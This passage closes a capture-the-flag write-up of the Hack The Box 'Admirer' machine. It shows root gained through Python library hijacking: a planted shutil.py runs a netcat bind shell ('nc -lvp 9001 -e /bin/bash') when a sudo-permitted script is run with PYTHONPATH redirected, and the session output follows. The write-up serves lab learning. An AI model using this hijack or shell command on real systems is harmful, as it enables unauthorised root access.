 Create a directory in `temp` folder

```bash
waldo@admirer:/tmp$ ls
temp  vmware-root
waldo@admirer:/tmp$ ls temp/
shutil.py
waldo@admirer:/tmp$ cat temp/shutil.py 

import os
os.system("nc -lvp 9001 -e /bin/bash")
waldo@admirer:/tmp$ 
```
Let's run the `script` 

```bash
waldo@admirer:/tmp/temp$ sudo -E PYTHONPATH=$(pwd) /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:/tmp/temp$ listening on [any] 9001 ...
```
and now try `nc` to port 9001 on machine and we are `root`

```bash
 ~/htb/boxes/Admirer >> rlwrap nc 10.10.10.187 9001
id
uid=0(root) gid=0(root) groups=0(root)
python -c 'import pty;pty.spawn("/bin/bash")'
root@admirer:/tmp/temp# cd
cd \root
root@admirer:/root# whoami && id && wc -l root.txt
whoami && id && wc -l root.txt
root
uid=0(root) gid=0(root) groups=0(root)
1 root.txt
root@admirer:/root# 
```
# Resources:~$

| Topic | Link|
|-------|-----|
| Adminer Database Exploit| [Here](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)|
| Mysql Server | [Here](https://support.rackspace.com/how-to/install-mysql-server-on-the-ubuntu-operating-system/)|
| Python Path Hijacking | [Here](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)|



With this, we come to the end of the story of how I owned Admirer 😃

Thank you for reading !!!

*We would love to hear about any suggestions or queries.*

